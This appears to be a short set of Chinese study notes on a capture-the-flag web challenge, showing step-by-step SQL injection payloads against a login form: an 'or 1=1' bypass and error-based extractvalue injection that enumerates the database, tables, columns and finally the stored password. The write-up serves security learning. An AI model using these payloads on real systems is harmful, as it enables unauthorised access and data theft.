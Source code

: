 ![[Pasted image 20221106102433.png]]

![[Pasted image 20221106102446.png]]
```sql
?username=admin&password=1' or 1=1 or '1
```
![[Pasted image 20221106102957.png]]

这里引入了一个新的概念：**报错注入**

![[Pasted image 20221106103349.png]]

```sql
username=admin&password=1'^extractvalue(1,concat(0x5c,(select(database()))))#
```
![[Pasted image 20221106104824.png]]

爆表
```sql
username=admin&password=1'^extractvalue(1,concat(0x5c,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like('geek')))))#
```
![[Pasted image 20221106105754.png]]

爆字段
```sql
username=admin&password=1'^extractvalue(1,concat(0x5c,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like('H4rDsq1')))))#
```
![[Pasted image 20221106110012.png]]

成功近在咫尺
```sql
username=admin&password=1'^extractvalue(1,concat(0x5c,(select(password)from(geek.H4rDsq1))))#
```
![[Pasted image 20221106110239.png]]

貌似是错误信息限制了长度
```sql
username=admin&password=1'^extractvalue(1,concat(0x5c,(select(right(password,30))from(geek.H4rDsq1))))#
```
![[Pasted image 20221106110613.png]]

#Web #SQL注入 #报错注入 